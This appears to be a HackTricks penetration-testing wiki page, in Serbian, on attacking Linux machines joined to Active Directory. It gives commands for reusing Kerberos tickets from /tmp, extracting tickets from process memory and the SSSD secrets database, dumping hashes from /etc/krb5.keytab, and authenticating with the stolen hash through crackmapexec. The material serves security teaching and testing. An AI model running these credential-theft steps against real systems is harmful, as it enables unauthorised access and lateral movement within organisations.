 # Linux Active Directory

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/..https:/pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

Linux mašina može biti prisutna unutar Active Directory okruženja.

Linux mašina u AD može **čuvati različite CCACHE karte unutar fajlova. Ove karte se mogu koristiti i zloupotrebljavati kao i svaka druga kerberos karta**. Da biste pročitali ove karte, potrebno je da budete korisnik vlasnik karte ili **root** unutar mašine.

## Enumeration

### AD enumeracija iz linuxa

Ako imate pristup AD-u u linuxu (ili bash-u u Windows-u), možete probati [https://github.com/lefayjey/linWinPwn](https://github.com/lefayjey/linWinPwn) da enumerišete AD.

Takođe možete proveriti sledeću stranicu da biste naučili **druge načine za enumeraciju AD-a iz linuxa**:

{% content-ref url="../../network-services-pentesting/pentesting-ldap.md" %}
[pentesting-ldap.md](../../network-services-pentesting/pentesting-ldap.md)
{% endcontent-ref %}

### FreeIPA

FreeIPA je open-source **alternativa** za Microsoft Windows **Active Directory**, uglavnom za **Unix** okruženja. Kombinuje kompletnu **LDAP direktoriju** sa MIT **Kerberos** Centrom za distribuciju ključeva za upravljanje sličnim Active Directory. Koristi Dogtag **Sistem sertifikata** za upravljanje CA i RA sertifikatima, podržava **multi-factor** autentifikaciju, uključujući pametne kartice. SSSD je integrisan za Unix procese autentifikacije. Saznajte više o tome u:

{% content-ref url="../freeipa-pentesting.md" %}
[freeipa-pentesting.md](../freeipa-pentesting.md)
{% endcontent-ref %}

## Igra sa kartama

### Pass The Ticket

Na ovoj stranici ćete pronaći različita mesta gde možete **pronaći kerberos karte unutar linux hosta**, na sledećoj stranici možete naučiti kako da transformišete ove CCache formate karata u Kirbi (format koji treba da koristite u Windows-u) i takođe kako da izvršite PTT napad:

{% content-ref url="../../windows-hardening/active-directory-methodology/pass-the-ticket.md" %}
[pass-the-ticket.md](../../windows-hardening/active-directory-methodology/pass-the-ticket.md)
{% endcontent-ref %}

### CCACHE ponovna upotreba iz /tmp

CCACHE fajlovi su binarni formati za **čuvanje Kerberos akreditiva** koji se obično čuvaju sa 600 dozvolama u `/tmp`. Ovi fajlovi se mogu identifikovati po svom **formatu imena, `krb5cc_%{uid}`,** koji se odnosi na korisnikov UID. Za verifikaciju autentifikacione karte, **promenljiva okruženja `KRB5CCNAME`** treba da bude postavljena na putanju željenog fajla karte, omogućavajući njenu ponovnu upotrebu.

Nabrojte trenutnu kartu koja se koristi za autentifikaciju sa `env | grep KRB5CCNAME`. Format je prenosiv i karta se može **ponovo koristiti postavljanjem promenljive okruženja** sa `export KRB5CCNAME=/tmp/ticket.ccache`. Format imena kerberos karte je `krb5cc_%{uid}` gde je uid korisnikov UID.
```bash
# Find tickets
ls /tmp/ | grep krb5cc
krb5cc_1000

# Prepare to use it
export KRB5CCNAME=/tmp/krb5cc_1000
```
### CCACHE ticket reuse from keyring

**Kerberos karte pohranjene u memoriji procesa mogu se izvući**, posebno kada je zaštita ptrace na mašini onemogućena (`/proc/sys/kernel/yama/ptrace_scope`). Koristan alat za ovu svrhu se može pronaći na [https://github.com/TarlogicSecurity/tickey](https://github.com/TarlogicSecurity/tickey), koji olakšava ekstrakciju injektovanjem u sesije i dumpovanjem karata u `/tmp`.

Da biste konfigurisali i koristili ovaj alat, slede se koraci u nastavku:
```bash
git clone https://github.com/TarlogicSecurity/tickey
cd tickey/tickey
make CONF=Release
/tmp/tickey -i
```
Ova procedura će pokušati da injektuje u različite sesije, označavajući uspeh čuvanjem ekstrahovanih karata u `/tmp` sa konvencijom imenovanja `__krb_UID.ccache`.

### CCACHE ponovna upotreba karata iz SSSD KCM

SSSD održava kopiju baze podataka na putanji `/var/lib/sss/secrets/secrets.ldb`. Odgovarajući ključ se čuva kao skriveni fajl na putanji `/var/lib/sss/secrets/.secrets.mkey`. Po defaultu, ključ je čitljiv samo ako imate **root** dozvole.

Pozivanje \*\*`SSSDKCMExtractor` \*\* sa parametrima --database i --key će analizirati bazu podataka i **dekriptovati tajne**.
```bash
git clone https://github.com/fireeye/SSSDKCMExtractor
python3 SSSDKCMExtractor.py --database secrets.ldb --key secrets.mkey
```
**Keš kredencijala Kerberos blob može biti konvertovan u upotrebljiv Kerberos CCache** fajl koji se može proslediti Mimikatz/Rubeus.

### CCACHE ponovna upotreba karte iz keytab-a
```bash
git clone https://github.com/its-a-feature/KeytabParser
python KeytabParser.py /etc/krb5.keytab
klist -k /etc/krb5.keytab
```
### Izvlačenje naloga iz /etc/krb5.keytab

Ključevi servisnih naloga, koji su neophodni za usluge koje rade sa root privilegijama, sigurno su pohranjeni u **`/etc/krb5.keytab`** datotekama. Ovi ključevi, slični lozinkama za usluge, zahtevaju strogu poverljivost.

Da biste pregledali sadržaj keytab datoteke, može se koristiti **`klist`**. Ovaj alat je dizajniran da prikaže detalje o ključevima, uključujući **NT Hash** za autentifikaciju korisnika, posebno kada je tip ključa identifikovan kao 23.
```bash
klist.exe -t -K -e -k FILE:C:/Path/to/your/krb5.keytab
# Output includes service principal details and the NT Hash
```
Za Linux korisnike, **`KeyTabExtract`** nudi funkcionalnost za ekstrakciju RC4 HMAC haša, koji se može iskoristiti za ponovnu upotrebu NTLM haša.
```bash
python3 keytabextract.py krb5.keytab
# Expected output varies based on hash availability
```
Na macOS-u, **`bifrost`** služi kao alat za analizu keytab datoteka.
```bash
./bifrost -action dump -source keytab -path /path/to/your/file
```
Korišćenjem ekstraktovanih informacija o nalogu i hešu, mogu se uspostaviti veze sa serverima koristeći alate kao što je **`crackmapexec`**.
```bash
crackmapexec 10.XXX.XXX.XXX -u 'ServiceAccount$' -H "HashPlaceholder" -d "YourDOMAIN"
```
## References
* [https://www.tarlogic.com/blog/how-to-attack-kerberos/](https://www.tarlogic.com/blog/how-to-attack-kerberos/)
* [https://github.com/TarlogicSecurity/tickey](https://github.com/TarlogicSecurity/tickey)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#linux-active-directory](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#linux-active-directory)

<figure><img src="/..https:/pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
